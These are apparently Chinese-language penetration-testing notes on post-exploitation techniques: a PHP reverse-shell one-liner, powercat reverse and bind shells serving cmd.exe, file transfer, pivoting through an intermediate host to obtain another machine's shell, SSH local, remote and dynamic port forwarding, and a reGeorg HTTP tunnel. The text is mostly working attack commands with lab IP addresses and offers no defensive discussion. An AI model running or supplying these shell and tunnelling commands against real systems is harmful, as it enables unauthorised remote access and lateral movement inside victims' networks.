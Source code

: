 ```
php -r '$sock=fsockopen("192.168.3.38",6666);exec("/bin/sh -i <&3 >&3 2>&3");'
```

## powercat
shell
nc -lvvp 4444
powercat –c 192.168.150.10 –p 4444 –v –e c:\windows\system32\cmd.exe

win2016
Powercat –l –p 9999 -v
win7
Powercat –c 192.168.150.12 –p 9999 –v –e cmd.exe


# 文件传输
win7
powercat –l –p 4444 -of c:\1.txt -v 
Win2016: 
powercat –c 192.168.150.7 –p 4444 –i c:\1.txt –v 
注意：win12传输完成后并不会断开连接，还可以继续输入内容写入1.txt，完成传 输后使用ctrl+c断开连接。 所有内容完成传输，断开连接后内容才会显示。
跳板

B(192.168.150.12)为中间服务器，可以访问A，C(192.168.150.7)两主机，但是A ，C之间不通，现在A要获取C的shell,那么可以使用下面方法，获取shell 首先在C服务器上把cmd放到6666端口上，然后在B服务器上将从8000端口 得到的流量转发到目标主机的6666端口上,这样，通过B服务器的跳板作用，A能成 功得到C的shell。 
C：powercat –l –v –p 6666 –e cmd.exe
B：powercat –l –v –p 8000 –r tcp:192.168.150.7:6666 
A：nc 192.168.150.12 8000 –vv

# 应用层隧道技术 
## ssh
Vi /etc/ssh/sshd_config SSH配置文件 PermitRootLogin yes 是否允许root登录 PasswordAuthentication yes 是否允许使用基于密码的认证 AllowTcpForwarding yes 是否允许转发TCP协议 GatewayPorts yes 是否允许远程主机连接本地转发端口 TCPKeepAlive yes 保持心跳，防止ssh断开 重启ssh服务的两个命令： Service ssh restart /etc/init/ssh restart

-C 压缩传输，加快传输速度。 -f 将ssh转入后台执行，不占用当前的shell -N 建立静默连接（建立了连接，但是看不到具体会话） -g 允许远程主机连接到本地用于转发的端口 -L 本地端口转发 -R 远程端口转发 -D 动态转发（socks代理） -p 指定ssh端口

### 本地端口转发
Ssh本地转发： 本地转发是将远程主机某个端口流量转发到本地机器的指定端口 B为中间服务器，可以访问A，C两主机，但是A，C之间不通（或者C能通A），那 么可以vps使用下面方法，进行端口转发 A192.168.3.19 B:192.168.3.21 C:192.168.150.7 本地端口转发： ssh -CfNg –L 本地端口（vps）：目标主机：目标端口 账号@中间web服务器ip ssh –CfNg –L 2222:192.168.150.7:3389 root@192.168.3.21 远程桌面：kali rdesktop 192.168.3.20:2222
### 远程端口转发
Ssh远程转发 远程端口转发是在远程主机上监听一个端口，所有访问远程服务器指定端口的数据 都会通过ssh隧道传输到本地对应端口 B为中间服务器，可以访问A，C两主机，但是A，C之间不通（或者C能通A），那 么可以在中间服务器上使用下面方法，进行端口转发 A192.168.3.19 B:192.168.3.21 C:192.168.150.7 远程端口转发： Ssh –R 19端口：目标主机：目标端口 root@vps(ip) Ssh –CfNg –R 2222（19）:192.168.150.7:3389 root@192.168.3.19
### 动态转发
ssh动态转发： 在中间服务器上执行如下命令，建立一个动态的SOCKS 4/5代理通道，输入web服 务器的密码。 ssh –CfNg –D 7000 root@192.168.3.21 接下来，在本地打开浏览器，设置网络代理，192.168.3.21:7000 查看端口，本地端口7000是否已经连接， 动态端口映射就是建立一个ssh加密的socks4/5代理通道，任何支持socks协议的程 序都能使用这个加密通道。 kali 2019设置代理：vi /etc/proxychains.conf 使用代理访问： proxychains curl 192.168.150.7:8000
## http/https
reGeorg: https://github.com/sensepost/reGeorg 修改配置文件 vi /etc/proxychains4.conf socks4 127.0.0.1 9050 建立隧道：(kali 21) python reGeorgSocksProxy.py –u http://192.168.150.7/tunnel.nosocket.php -p 9050 根据不同的站点上传目标文件进行隧道建立：(win 7 站点下)
